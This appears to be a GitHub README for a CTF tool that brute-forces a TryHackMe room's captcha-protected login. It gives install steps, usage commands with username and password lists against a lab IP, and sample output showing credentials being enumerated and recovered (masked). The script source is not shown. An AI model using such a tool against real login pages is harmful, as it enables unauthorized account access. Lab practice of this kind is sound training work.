 # Capture! ByPass (TryHackme CTF)

<p align="center"><img src="images/capture-logo.png" alt="vkm-logo" style='width:150px;height:150px;'></p>


<div align="center">
    <img src="https://img.shields.io/badge/Code%20By%2014Wual-8338ec">
    <img src="https://img.shields.io/github/downloads/14wual/capture/total">
    <img src="https://img.shields.io/github/license/14wual/capture">
    <img src="https://img.shields.io/tokei/lines/github/14wual/capture">
    <img src="https://img.shields.io/github/stars/14wual/capture">
</div>

**Author**: Carlos Padilla (14wual)

**Download**: https://github.com/14wual/capture#Install

**Room Title**: Capture this!

**Room Link**: [URL](https://tryhackme.com/room/capture!)

**Room Author**: [toxicat0r](https://tryhackme.com/p/toxicat0r) && [https://tryhackme.com/p/tryhackme](tryhackme)


# Table of Contents

1. [Download](https://github.com/14wual/capture#Download)
2. [Usage](https://github.com/14wual/capture#Usage)
3. [Usage Example](https://github.com/14wual/capture#Example)
4. [Output](https://github.com/14wual/capture#Output)
5. [License](https://github.com/14wual/capture/LICENSE)


# Download

```
git clone https://github.com/14wual/capture/
cd capture/ && pip install -r requirements.txt

```

# Usage

```bash
┌──(wual㉿kali)-[~/capture]
└─$ python bypass.py --help  

usage: bypass.py [-h] [-p PASSLIST] [-u USERLIST] --url URL

CaptureByPass Args

options:
  -h, --help            show this help message and exit
  -p PASSLIST, --passlist PASSLIST
  -u USERLIST, --userlist USERLIST
  --url URL 
```

`--url URL` Is Required.

## Examples

```bash
python bypass.py --passlist passwords.txt --userlist usernames.txt --url 10.10.10.10
```

<details>
  <summary>See More</summary>

```bash
python bypass.py -p passwords.txt --u usernames.txt --url 10.10.10.10/login
```

```bash
python bypass.py -u usernames.txt --url http://10.10.10.10
```

```bash
python bypass.py -p passwords.txt --url http://10.10.10.10/login
```

```bash
python bypass.py --url http://10.10.10.10/login # http://10.10.10.10 or 10.10.10.10
```
    
</details>

# Output

```
==============================================
Capture!ByPass         Carlos Padilla (14wual)
==============================================
   _____                _                   _ 
  / ____|   /\         | |  ByPass Script  | |
 | |       /  \   _ __ | |_ _ __ _   _  ___| |
 | |      / /\ \ | '_ \| __| '__| | | |/ _ \ |
 | |____ / ____ \| |_) | |_| |  | |_| |  __/_|
  \_____/_/    \_\ .__/ \__|_|   \__,_|\___(_)
                 | |                          
                 |_| (Code by 14Wual)
==============================================
Author Web: https://14wual.github.io/
CTF Room: https://tryhackme.com/room/capture
==============================================
rURL: http://10.10.206.228
==============================================
PassList Size: 1567
UserList Size: 878
==============================================
[Info] Started at: 30:01/2024 - 00:34:02
[Info] Captchat enabled.
[*] Trying Username: hunter with the test password.
...
[Info] Discovered username: n******.
[*] Trying Password: michaela for n******.
...
[Info] Discovered password: s***
==============================================
[CREDENTIALS] n******:s*******
==============================================
[Info] Opening New Browser Tab

```
